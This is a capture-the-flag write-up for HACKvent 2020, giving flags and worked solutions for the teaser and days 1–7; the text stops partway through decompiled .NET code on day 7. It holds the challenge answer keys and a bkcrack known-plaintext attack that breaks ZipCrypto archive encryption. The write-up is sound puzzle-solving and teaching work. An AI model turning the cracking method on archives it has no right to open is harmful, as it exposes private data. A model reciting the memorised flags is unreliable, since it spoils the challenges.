


# HACKvent 2020


The annual advent calender from Hacking-lab


## Overview


Title                                             | Category    | Points | Flag
------------------------------------------------- | ----------- | ------ | ------------------------------
[Teaser ](#day--1-twelve-steps-of-christmas)      | Easy        | 2/1    | `HV20{34t-sl33p-haxx-rep34t}`
[December 1 ](#day-01-happy-hackvent-2020)        | Easy        | 2/1    | `HV20{7vxFXB-ItHnqf-PuGNqZ}`
[December 2 ](#day-02-chinese-animals)            | Easy        | 2/1    | `HV20{small-elegant-butterfly-loves-grass-mud-horse}`
[December 3 ](#day-03-packed-gifts)               | Easy        | 2/1    | `HV20{ZipCrypt0_w1th_kn0wn_pla1ntext_1s_easy_t0_decrypt}`
[December 4 ](#day-04-bracelet)                   | Easy        | 2/1    | `HV20{Ilov3y0uS4n74}`
[December 5 ](#day-05-image-dna)                  | Easy        | 2/1    | `HV20{s4m3s4m3bu7diff3r3nt}`
[December 6 ](#day-06-twelve-steps-of-christmas)  | Medium        | 2/1    | `HV20{Erno_Rubik_would_be_proud.Petrus_is_Valid.#HV20QRubicsChal}`
[December 7 ](#day-bad-morals)                            | Medium        | 2/1    | `HV20{r3?3rs3_3ng1n33r1ng_m4d3_34sy}`
[December 8 ](#day-08)                            | Medium      | 3/2    | `HV20-`
[December 9 ](#day-09)                            | Medium      | 3/2    | `HV20-`
[December 10](#day-10)                            | Medium      | 3/2    | `HV20-`
[December 11](#day-11)                            | Medium      | 3/2    | `HV20-`
[December 12](#day-12)                            | Medium      | 3/2    | `HV20-`
[December 13](#day-13)                            | Medium      | 3/2    | `HV20-`
[December 14](#day-14-)                           | Medium      | 3/2    | `HV20-`
[December 15](#day-15-)                           | Hard        | 4/3    | `HV20-`
[December 16](#day-16-)                           | Hard        | 4/3    | `HV20-`
[December 17](#day-17-)                           | Hard        | 4/3    | `HV20-`
[December 18](#day-18-)                           | Hard        | 4/3    | `HV20-`
[December 19](#day-19-)                           | Hard        | 4/3    | `HV20-`
[December 20](#day-20-)                           | Hard        | 4/3    | `HV20-`
[December 21](#day-21-)                           | Hard        | 4/3    | `HV20-`
[December 22](#day-22-)                           | Expert      | 5/4    | `HV20-`
[December 23](#day-23-)                           | Expert      | 5/4    | `HV20-`
[December 24](#day-24-)                           | Expert      | 5/4    | `HV20-`
[December 25](#day-25-)                           | Expert      | 5/4    | `HV20-`
[Hidden 1](#hidden-1)                             |             |      | `HV20{it_is_always_worth_checking_everywhere_and_congratulations,_you_have_found_a_hidden_flag}`

## Day -1: Twelve steps of christmas

**Description**

On the third day of christmas my true love sent to me...

three caesar salads,
two to (the) six arguments,
one quick response.

[message](writeupfiles/teaser.txt)

**Solution**

```
Sbopb 3 alkb! Lcc tfqe vlr! Dbq yxzh ql tloh! Vlr'ob klq alkb ebob...

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
veGRXXXXXBiCQhPrNjZZ
```

The first line looks like a ceasar cipher, and it reads

```
Verse 3 done! Off with you! Get back to work! You're not done here...
```

The rest of the message looks like base64, but it isn't quite right..

But what if we combine the two, do a caesar shift first, and then base64 decode?

```bash
$ cat 0.txt | caesar 3 | base64 -d > caesarbase64
$ file caesarbase64
caesarbase64: PNG image data, 410 x 410, 8-bit grayscale, non-interlaced

```

we get a png image!


The image looks completely white..


but there are different shades of white, and using GIMP we can uncover the hidden QR code!


**Flag**

```
HV20{34t-sl33p-haxx-rep34t}
```


## Day 01: Happy HACKvent 2020

**Description**

Welcome to this year's HACKvent.

Attached you can find the "Official" invitation to the HackVent.


One of my very young Cyber Elves cut some parts of the card with his alpha scissors.

Have a great HACKvent,

– Santa

**Solution**

opening it in GIMP doesn't lead anywhere, we see the code has been cut out with the "alpha scissors":


but running exiftool gives us a hint

```bash
$ exiftool dec1.png
ExifTool Version Number         : 1.88
File Name                       : 1.png
Directory                       : writeupfiles
File Size                       : 2.5 MB
File Modification Date/Time     : 2020:12:01 20:11:37+01:00
File Access Date/Time           : 2020:12:01 20:13:25+01:00
File Inode Change Date/Time     : 2020:12:01 20:11:37+01:00
File Permissions                : rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1600
Image Height                    : 900
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
[..]
Background Color                : 255 255 255
Pixels Per Unit X               : 2835
Pixels Per Unit Y               : 2835
Pixel Units                     : meters
Modify Date                     : 2020:11:17 07:39:19
Image Size                      : 1600x900
Megapixels                      : 1.4
Thumbnail Image                 : (Binary data 8609 bytes, use -b option to extract)
```

There is a thumbnail image embedded, lets see if that has more info in it!

```bash
$ exiftool -b -ThumbnailImage dec1.png > dec1_thumbnail.png

```


Aha! we can still see the flag on here!

**Flag**
```
HV20{7vxFXB-ItHnqf-PuGNqZ}
```

## Day 02: Chinese Animals

**Description**

I've received this note from a friend, who is a Chinese CTF player:

    恭喜！收旗爲：ＨＶ２０｛獭慬氭敬敧慮琭扵瑴敲晬礭汯癥猭杲慳猭浵搭桯牳ｅ｝

Unfortunately, Google Translate wasn't of much help:


I suspect the data has somehow been messed up while transmitting it.

Sadly, I can't ask my friend about more details. The Great Chinese Firewall is thwarting our attempts to reach each other, and there's no way I'm going to install WeChat on my phone.

**Solution**

Google Translate gives the following:


Congratulations: 恭喜
Flag collection: 收旗爲

While attempting to convert it into utf16, it turned out that was the solution?

```
$ iconv -f UTF-8 -t UTF-16LE writeupfiles/dec2.txt
msla-llegena-tubttrelf-yolev-srgsa-sum-dohsrE
$ iconv -f UTF-8 -t UTF-16BE writeupfiles/dec2.txt
small-elegant-butterfly-loves-grass-mud-horsE
```

or the python approach:

```python
>>> ct = '獭慬氭敬敧慮琭扵瑴敲晬礭汯癥猭杲慳猭浵搭桯牳'
>>> ct.encode("utf-16be")
b'small-elegant-butterfly-loves-grass-mud-hors'
```

and just add the `e` at the end from the original challenge to get the flag:


**Flag**
```
HV20{small-elegant-butterfly-loves-grass-mud-horse}
```

## Day 03: Packed Gifts

**Description**

One of the elves has unfortunately added a password to the last presents delivery and we cannot open it. The elf has taken a few days off after all the stress of the last weeks and is not available. Can you open the package for us?

We found the following packages:
- [Package 1](writeupfiles/dec3_package1.zip)
- [Package 2](writeupfiles/dec3_package2.zip)

**Solution**

We see that package2 is encrypted, but package1 is not. They both contain the same 100 files (`0000.bin` .. `0099.bin`), so we try a known plaintext attack

With [BKcrack](https://github.com/kimci86/bkcrack) (and using their [tutorial](https://github.com/kimci86/bkcrack/blob/master/example/tutorial.md)):


```bash
$ bkcrack -C dec3_package2.zip -c 0000.bin -P dec3_package1.zip -p 0000.bin
```

Which didn't find the solution, but we try it with all the common files, which found the keys when using file `0053.bin`

```
bkcrack 1.0.0 - 2020-11-11
Generated 4194304 Z values.
[22:52:28] Z reduction using 151 bytes of known plaintext
100.0 % (151 / 151)
53880 values remaining.
[22:52:40] Attack on 53880 Z values at index 7
Keys: 2445b967 cfb14967 dceb769b
68.8 % (37077 / 53880)
[23:16:34] Keys
2445b967 cfb14967 dceb769b
```

now we can to recover `flag.bin` file using these found keys as follows:

```bash
$ bkcrack -C dec3_package2.zip -c flag.bin -k 2445b967 cfb14967 dceb769b -d flagout.bin
$ ../tools/inflate.py < flagout.bin > flagout2.bin
$ base64 -d flagout2.bin
HV20{ZipCrypt0_w1th_kn0wn_pla1ntext_1s_easy_t0_decrypt}
```

**Flag**
```
HV20{ZipCrypt0_w1th_kn0wn_pla1ntext_1s_easy_t0_decrypt}
```

## Day 04: Bracelet

**Description**

Santa was given a nice bracelet by one of his elves. Little does he know that the secret admirer has hidden a message in the pattern of the bracelet...


Hints:
 - No internet is required - only the bracelet
 - The message is encoded in binary
 - Violet color is the delimiter
 - Colors have a fixed order
 - Missing colors matter

**Solution**

Lets start by transcribing the beads of the bracelet, and we know that purple is a delimiter

```
g|py|gb|pg|gb|pgby|gby|gb|by|by|gby|py|by||gby|gy|gy|by|by|g|gb|pgb|by|gby|by|g|


g=green
p=pink
y=yellow
b=blue
```

Given the clues that the order is always the same, we suspect that each color represents a place in the binary number, and presence of the bead means a `1` in that position, and absence of the color bead a `0`

we have one grouping with all colors, so we know the order is `pgby`, and if all beads are present, it corresponds to `1111`, and if none are present it is `0000` etc

```
pgby
----
0000
0001 y
0010 b
0011 by
0100 g
0101 gy
..etc

```

then to convert this to ascii characters, two groups form one letter

Transcribing the whole bracelet gives the following binary code:


```
01001001 01101100 01101111 01110110 00110011 01111001 00110000 01110101 01010011 00110100 01101110 00110111 00110100
```

which when converted to ascii spells `Ilov3y0uS4n74`

**Flag**
```
HV20{Ilov3y0uS4n74}
```

## Day 05: Image DNA

**Description**

Santa has thousands of Christmas balls in stock. They all look the same, but he can still tell them apart. Can you see the difference?


**Solution**

running `strings` on the images reveals a DNA sequence, hint?

```bash
$ strings dec5-1.jpg
JFIF
$3br
[..]
f?*~
kh[F;-8B
VW}L
CTGTCGCGAGCGGATACATTCAAACAATCCTGGGTACAAAGAATAAAACCTGGGCAATAATTCACCCAAACAAGGAAAGTAGCGAAAAAGTTCCAGAGGCCAAA


$ strings dec5-2.jpg
JFIF
ICC_PROFILE
lcms
mntrRGB XYZ
[..]
Iwh]r
=nr_
ATATATAAACCAGTTAATCAATATCTCTATATGCTTATATGTCTCGTCCGTCTACGCACCTAATATAACGTCCATGCGTCACCCCTAGACTAATTACCTCATTC

```

Aha! we see two DNA strings, of equal length, and looks about the right length for a flag..

The challenge description refers to differences, so lets subtract these two strings from each other
We first convert to binary from this base-4 string

```
    bin base4
A = 00  0
C = 01  1
G = 10  2
T = 11  3
```

In this scheme, each group of 4 characters maps to 8 bits, and therefore one ascii character.

Knowing that the result should start with `HV20{`, we experiment with the first few characters, and find
out that if we XOR the result of the above mapping, we get the right answer:

```
CTGT CGCG: 01111011 01100110
ATAT ATAA: 00110011 00110000
xor:       01001000 01010110
ascii:     H        V
```

ok, this looks good! Let's automate the rest in Python:

```python
import binascii

dna1="ATATATAAACCAGTTAATCAATATCTCTATATGCTTATATGTCTCGTCCGTCTACGCACCTAATATAACGTCCATGCGTCACCCCTAGACTAATTACCTCATTC"
dna2="CTGTCGCGAGCGGATACATTCAAACAATCCTGGGTACAAAGAATAAAACCTGGGCAATAATTCACCCAAACAAGGAAAGTAGCGAAAAAGTTCCAGAGGCCAAA"

# translate DNA strings to base-4 numbers
map={"A": "0", "C": "1", "G":"2", "T":"3"}
dna1b = dna1.translate(dna1.maketrans(map))
dna2b = dna2.translate(dna2.maketrans(map))

# xor the two numbers
flag = int(dna1b,4)^int(dna2b,4)

# convert back to ascii
print(binascii.unhexlify('%x' % flag))

```

This outputs the flag :)

**Flag**
```
HV20{s4m3s4m3bu7diff3r3nt}
```

## Day 06: Twelve steps of Christmas

**Description**

On the sixth day of Christmas my true love sent to me...

six valid QRs,
five potential scrambles,
four orientation bottom and right,
and the rest has been said previously.



[source image (.pxd)](writeupfiles/dec6.pxd)

**Solution**

This is cool, I love Rubik's cubes! Unfortunately I don't have a printer, so we are going to solve this in-silico :)

We cut out all the squares with GIMP, and use python to generate all possible combinations of QR-quarters, and find the flag


```python
from PIL import Image
from pyzbar.pyzbar import decode
import glob, itertools

def concat_h(im1, im2):
    dst = Image.new('RGB', (im1.width + im2.width, im1.height))
    dst.paste(im1, (0, 0))
    dst.paste(im2, (im1.width, 0))
    return dst

def concat_v(im1, im2):
    dst = Image.new('RGB', (im1.width, im1.height + im2.height))
    dst.paste(im1, (0, 0))
    dst.paste(im2, (0, im1.height))
    return dst


# load image parts
qrblocks = [Image.open(a) for a in glob.glob("dec6-qrcodes/good_tr/*.png")]
qrbr = [Image.open(a) for a in glob.glob("dec6-qrcodes/br/*.png")]
perm = itertools.permutations(qrblocks,3)

found = 0
for i in perm:
  tl = i[0].rotate(90)
  tr = i[1]
  bl = i[2].rotate(180)
  for br in qrbr:
    top = concat_h(tl,tr)
    bottom = concat_h(bl,br)
    final = concat_v(top,bottom)
    dec = decode(final)
    if dec != []:
      print(dec[0].data)
      final.save("dec6_qrcode"+str(found)+".png")
      found+=1

```

This gives the following output:

```
b'HV20{Erno_                                                      '
b'_be_proud.                                                      '
b'Rubik_would                                                     '
b'#HV20QRubicsChal}                                               '
b'_Valid.                                                         '
b'Petrus_is                                                       '
```

whoo! we found all the fragments! Now its just a matter of putting them in the right order and we have our flag :)

These were the qr images


**Flag**
```
HV20{Erno_Rubik_would_be_proud.Petrus_is_Valid.#HV20QRubicsChal}
```

## Day 07: Bad Morals

**Description**

One of the elves recently took a programming 101 course. Trying to be helpful, he implemented a program for Santa to generate all the flags for him for this year's HACKvent 2020. The problem is, he can't remember how to use the program any more and the link to the documentation just says `404 Not found`. I bet he learned that in the Programming 101 class as well.

Can you help him get the flag back?

[BadMorals.exe](writeupfiles/BadMorals.exe)

*Hints*
  - There are nearly infinite inputs that pass almost all the tests in the program
  - For the correct flag, the final test has to be successful as well

**Solution**

Ok, we have a windows executable, but no Windows, let's see what we can gather:

```
$ file BadMorals.exe
BadMorals.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

We use ILSpy (The [Avalonia ILSpy port](https://github.com/icsharpcode/AvaloniaILSpy) for Linux) to decompine the .Net program and get some readable code:

```c
public class Program
{
	public static void Main(string[] args)
	{
		try
		{
			Console.Write("Your first input: ");
			char[] array = Console.ReadLine().ToCharArray();
			string text = "";
			string text2 = "";
			for (int i = 0; i < array.Length; i++)
			{
				if (i % 2 == 0 && i + 2 <= array.Length)
				{
					text += array[i + 1].ToString();
				}
			}
			if (text == "BumBumWithTheTumTum")
			{
				text2 = "SFYyMH" + array[17].ToString() + "yMz" + array[8].GetHashCode() % 10 + "zcnMzXzN" + array[3].ToString() + "ZzF" + array[9].ToString() + "MzNyM" + array[13].ToString() + "5n" + array[14].ToString() + "2";
				goto IL_0141;
			}
			if (!(text == ""))
			{
				text2 = text;
				goto IL_0141;
			}
			Console.WriteLine("Your input is not allowed to result in an empty string");
			goto end_IL_0000;
			IL_0141:
			Console.Write("Your second input: ");
			char[] array2 = Console.ReadLine().ToCharArray();
			text = "";
			string text3 = "";
			Array.Reverse(array2);
			for (int j = 0; j < array2.Length; j++)
			{
				text += array2[j].ToString();
			}
			if (text == "BackAndForth")
			{
				text3 = "Q1RGX3" + array2[11].ToString() + "sNH" + array2[8].ToString() + "xbm" + array2[5].ToString() + "f";
				goto IL_021c;
			}
			if (!(text == ""))
			{
				text3 = text;
				goto IL_021c;
			}
			Console.WriteLine("Your input is not allowed to result in an empty string");
			goto end_IL_0000;
			IL_021c:
			Console.Write("Your third input: ");
			char[] array3 = Console.ReadLine().ToCharArray();
			text = "";
			string text4 = "";
			byte b = 42;
			for (int k = 0; k < array3.Length; k++)
			{
				char c = (char)(array3[k] ^ b);
				b = (byte)(b + k - 4);
				text += c.ToString();
			}
			if (text == "DinosAreLit")
			{
				text4 = "00ZD" + array3[3].ToString() + "f" + array3[2].ToString() + "zRzeX0=";
				goto IL_02e9;
			}
			if (!(text == ""))
			{
				text4 = text;
				goto IL_02e9;
			}
			Console.WriteLine("Your input is not allowed to result in an empty string");
			goto end_IL_0000;
			IL_02e9:
			byte[] array4 = Convert.FromBase64String(text2 + text4);
			byte[] array5 = Convert.FromBase64String(text3);
			byte[] array6 = new byte[array4.Length];
			for (int l = 0; l < array4.Length; l++)
			{
				array6[l] = (byte)(array4[l] ^ array5[l % array5.Length]);
			}
			byte[] array7 = SHA1.Create().ComputeHash(array6);
			byte[] array8 = new byte[20]
			{
				107,
				64,
				119,
				202,
				154,
				218,
				200,
				113,
				63,
				1,
				66,
				148,
				207,
				23,
				254,
				198,
				197,
				79,
				21,
				10
			};
			for (int m = 0; m < array7.Length; m++)
			{
				if (array7[m] != array8[m])
				{
					Console.WriteLine("Your inputs do not result in the flag.");
					return;
				}
			}
			string @string = Encoding.ASCII.GetString(array4);
			if (@string.StartsWith("HV20{"))
			{
